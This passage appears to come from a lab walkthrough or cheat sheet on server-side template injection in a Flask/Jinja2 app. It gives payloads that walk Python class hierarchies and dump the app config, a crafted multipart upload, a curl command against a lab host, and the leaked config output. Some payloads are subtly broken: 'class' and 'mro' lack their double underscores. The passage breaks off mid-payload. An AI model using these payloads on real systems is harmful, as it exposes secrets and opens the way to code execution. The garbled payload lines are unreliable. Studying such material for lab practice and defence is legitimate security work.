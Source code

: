 ```
# Not sure if this will work, but I saw it somewhere
{{ [].class.base.subclasses() }}
{{ ''.class.mro()[1].subclasses() }}
```

[**#Dump all config variables**]

```
{{ config }} #In these object you can find all the configured env variables


{% for key, value in config.items() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`vim ./html_python_request.txt`:
```http
-----------------------------156927482725802177751080524724
Content-Disposition: form-data; name="file"; filename="python_test.html"
Content-Type: text/html

<html>
	<body>
		{{ config }}
	</body>
</html>

-----------------------------156927482725802177751080524724--
```

`curl -X POST http://192.168.56.147:5000/ --data-binary @html_python_request.txt --header "Content-Type: multipart/form-data; boundary=---------------------------156927482725802177751080524724"`:
```html
[...]

    &lt;Config {&#39;DEBUG&#39;: True, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;SECRET_KEY&#39;: None, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(days=31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: None, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: None, &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093}&gt;

[...]
```

`vim ./html_python_request.txt`:
```http
-----------------------------156927482725802177751080524724
Content-Disposition: form-data; name="file"; filename="python_test.html"
Content-Type: text/html

<html>
	<body>
		# To access a class object
		[].__class__
		''.__class__
		()["__class__"] # You can also access attributes like this
		request["__class__"]
```